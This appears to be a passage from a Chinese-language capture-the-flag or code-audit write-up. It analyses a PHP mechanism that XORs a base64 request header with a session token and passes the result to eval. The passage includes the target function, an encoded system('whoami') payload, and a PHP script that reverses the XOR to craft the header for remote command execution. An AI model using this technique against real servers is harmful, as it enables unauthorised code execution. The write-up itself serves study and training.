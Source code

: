 由此可知，`$p` 为 `set_token($v, $_SESSION['token'])` 的执行结果，所以我们要控制 `set_token($v, $_SESSION['token'])` 的内容才能成功执行命令

-   `$v` 参数：从 HTTP 请求头获取名为 "HTTP\_X\_CSRF\_TOKEN" 的值，并进行 Base64 解密再讲值重新赋给 `$v`
-   `$_SESSION['token']` 参数：给服务器发一个 `TOKEN` 值，会生成一个随机的令牌（token）并将其存储在会话（session）中，并通过 HTTP 头部返回给客户端

明白了两个参数都是从哪来的之后，我们再来看函数 `set_token()`：

```plain
function set_token($v,$t) {
    $r="";
    for ($x=0; $x<strlen($v);$x++) {
        if(($x+1)%strlen($t)!=0) {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),($x+1) % strlen($t))));
        } else {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),16)));
        }
    }
    return $r;
}
```

简单来说，函数 `set_token($v, $t)` 就是一个加密算法，作用是根据输入的两个字符串 `$v` 和 `$t`，返回一个新的字符串 `$r`  
该函数采用异或（XOR）操作对两个字符串的每个字符进行逐一处理，并将结果拼接成新的字符串返回

而返回的 `$r` 变量，最终会传入 `@new E($r)`，进行 Base64 解密并放入高危函数 `eval` 内执行

打个比方，假设我们想执行系统命令 `whoami`，那 `$r` 变量就应该是 `system('whoami');` Base64 加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`  
而 `$r` 变量又是 `set_token($v, $_SESSION['token'])` 的加密结果，看上去很清晰，那目前我们的困境是什么？

那就是我们不知道 `$v` 应该传什么值！！！我们目前只知道 `$t=>$_SESSION['token']` 和执行的最终结果 `$r=>c3lzdGVtKCd3aG9hbWknKTsg`，那我们能不能通过这两个变量获得 `$v`呢，当然可以！！！

```plain
<?php
function decrypt_token($r, $t) {
    $v = "";
    for ($x = 0; $x < strlen($r); $x++) {
        if (($x + 1) % strlen($t) != 0) {
            $v .= chr(ord(substr($r, $x, $x + 1)) ^ ord(substr($t, $x % strlen($t), ($x + 1) % strlen($t))));
        } else {
            $v .= chr(ord(substr($r, $x, $x + 1)) ^ ord(substr($t, $x % strlen($t), 16)));
        }
    }
    return $v;
}

// 已知的 $t 和 $r 的值
$t = $_POST['token'];  //已知的 $t 的值
$r = $_POST['out'];  //"c3lzdGVtKCd3aG9hbWknKTsg" 已知的 $r 的值

// 解密已知的 $r 值得到 $v
$v = decrypt_token($r, $t);
echo base64_encode($v);
```
